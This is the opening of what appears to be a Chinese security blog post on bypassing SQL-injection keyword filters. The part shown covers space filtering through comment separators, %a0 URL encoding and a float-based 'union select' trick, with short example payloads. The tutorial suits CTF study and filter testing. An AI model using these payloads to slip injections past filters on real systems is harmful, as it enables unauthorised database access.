 ```yaml
---
title: SQL注入针对关键字过滤的绕过技巧
date: 2018-10-14 18:07:45+0800
tags:
- web-security
- SQL注入
- Bypass
categories:
- web-security
keywords:
- CTF
- SQL
- bypass
- SQL injection
- SQL注入
- 关键词屏蔽
- SQL屏蔽
- 语法新特性
- SQL注入绕过
- tables语句
- values语句
---
```


在SQL注入中经常会遇到服务端针对注入关键字进行过滤，经过查询各种文章，总结了一部分绕过的方法。


> 2020.08.08更新：增加利用MySQL8.0语法新特性绕过方法，增加SQL注入过滤和检测的几种思路和绕过方法

## 过滤空格

### 使用注释符`/**/`绕过

```sql
SELECT/**/name/**/FROM/**/table
```

### 使用**url编码**绕过

```sql
%a0 发出去就是空格的意思，但是需要在burp中抓包后修改
```

### 使用**浮点数**绕过

```sql
select * from users where id=8E0union select 1,2,3
等价于
select * from users where id=8.0 select 1,2,3
```

### 使用**Tab**替代空格
